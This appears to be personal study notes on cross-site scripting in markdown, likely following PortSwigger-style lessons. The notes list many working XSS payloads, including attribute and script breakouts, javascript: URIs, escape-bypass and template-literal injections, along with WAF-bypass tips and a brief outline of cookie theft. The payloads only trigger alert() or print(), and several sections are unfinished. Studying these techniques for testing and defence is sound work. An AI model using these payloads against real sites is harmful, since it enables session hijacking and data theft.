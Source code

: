 # Cross-site scripting (XSS)

## General info
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

## Alert() limitation
TO DO

## Do not use alert(1)
```
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```
```
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```
- Try `alert(1)` and you see it works... but
- `alert(document.session)` won't work... why?
- `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  - this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
- Use `alert(document.domain)` or `alert(window.origin)` instead 

## Types of XSS
- Reflected XSS, where the malicious script comes from the current HTTP request.
  - `https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`
- Stored XSS, where the malicious script comes from the website's database.
  - POST example: `comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
  - ```
    <script>
    function trackSearch(query) {
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
      trackSearch(query);
    }
    </script>
    ```
  - Get request `https://insecure-website.com/index?search="><script>alert(document.domain)<%2Fscript>`
  - Methodology
      1. Look for any script that has a sinks
      2. See if you can control the sink
      3. Exploit it 
  - Note: here there are some sources and sinks
    - https://github.com/wisec/domxsswiki/wiki
    - https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
  - Note 2: DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks. 

### DOM XSS - Sources and sinks in third-party dependencies
To do...

### DOM XSS combined with reflected and stored data
- If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side. (there is no processing from the server) 
- Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
  - `eval('var data = "reflected string"');`
- In a stored DOM XSS vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.
  - `element.innerHTML = comment.author`

## Cross-site scripting contexts
### XSS between HTML tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
- Bypass WAF
  - If you receive an error like "tag <img> is not allowed" or "event is not allowed", use XSS cheat sheet to discover a tag and event that work.
  - Note: understand how a payload works
    - `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
### XSS in HTML tag attributes
- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.
  - `"><script>alert(document.domain)</script>`
- More commonly in this situation, angle brackets are blocked or encoded. In this case you can introduce a new attribute that creates a scriptable context.
  - `" autofocus onfocus=alert(document.domain) x="`
- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context.
  - If the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script
    - `<a href="javascript:alert(document.domain)">`
- Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in:
  - Hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible
    - `<input type="hidden" accesskey="X" onclick="alert(1)">`
  - `<link rel="canonical" accesskey="X" onclick="alert(1)" />`
- Suggestions:
  - Substitute `'` `"` and viceversa
  - Space is not needed
    - `<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>`

### XSS into JavaScript
- Terminating the existing script (I don't really know why this works but it works)
  - The browser incorrectly interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.
      - ```
        <script>
        ...
        var input = 'controllable data here';
        ...
        </script>
        ```
        ```
        </script><img src=1 onerror=alert(document.domain)>
        ```
- Breaking out of a JavaScript string
  - It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing
    - ```
      '-alert(document.domain)-'
      ';alert(document.domain)//
      ```
  - Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
    - ` ';alert(document.domain)// ` is converted to `\';alert(document.domain)//` so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
  - Making use of HTML-encoding
    - When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
      - `<a href="#" onclick="... var input='controllable data here'; ...">`
      - `&apos;-alert(document.domain)-&apos;`
      - The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
      - HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
      - Note: you cannot use `&quot;` -> `"` to close onclick attribute. Remember: The browser HTML-decode the value of the onlick attribute but not the entire structure
  - XSS in JavaScript template literals
    - JavaScript template literals are string literals that allow embedded JavaScript expressions (Template literals are encapsulated in backticks)
      - ```
        <script>
        ...
        var input = `controllable data here`;
        ...
        </script>
        ```
        ```
        ${alert(document.domain)}
        ```
        
## Exploiting cross-site scripting vulnerabilities
### Exploiting cross-site scripting to steal cookies
- Send the victim's cookies to your own domain
- Limitation:
  - The victim might not be logged in.
  - Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
  - Sessions might be locked to additional factors like the user's IP address.
  - The session might time out before you're able to hijack it.
### Exploiting cross-site scripting to capture passwords
To do
### Exploiting cross-site scripting to perform CSRF
To do
